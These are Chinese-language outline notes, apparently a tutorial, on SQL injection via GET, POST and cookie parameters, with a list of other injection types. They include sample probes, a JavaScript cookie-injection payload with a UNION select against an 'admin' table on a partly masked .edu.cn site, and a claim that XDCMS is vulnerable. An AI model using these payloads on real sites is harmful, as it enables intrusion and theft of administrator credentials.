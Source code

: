 # 提交方式注入

## 常见的提交方式

GET
POST
COOKIE
HEAD
PUT
OPTION

### GET注入

get注入比较常见
例如：www.cracer.com/new.asp?id=11
/
-0
'
%bf'

### POST注入

post提交方式主要适用于表单的提交
用于登录框的注入
例如：
www.cracer.com/admin.php
测试站点：
http://testasp.vulnweb.com/login.asp?tfUPass=&tfUName=
测试工具
pangolin sqlmap
Xdcms +burp注入

- XDCMS全版本存在sql注入漏洞

需要使用代理抓包改包工具进行完成

sql exp

### COOKIE注入

cookie提交用于账户密码的cookie缓存
还可以通过cookie注入来突破简单的防注入系统

清空地址栏，输入：
javascript:alert(document.cookie="id="+escape("30 and 1=2")),然后去掉?id=1556输入http://soft.XXXXX.edu.cn/list.asp,返回正常

javascript:alert(document.cookie="id="+escape("1556 and 1=2 select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30 from admin"))

# 参数型注入

数字型注入
字符型注入
搜索型注入

# 其他注入

伪静态注入
延迟注入
base64注入
  解码
  构造语句
  编码
  $id=base64_decode($id);
二阶注入
phpv9 authkey注入
HTTP头注入
XML实体注入
APP注入挖掘

oracle注入

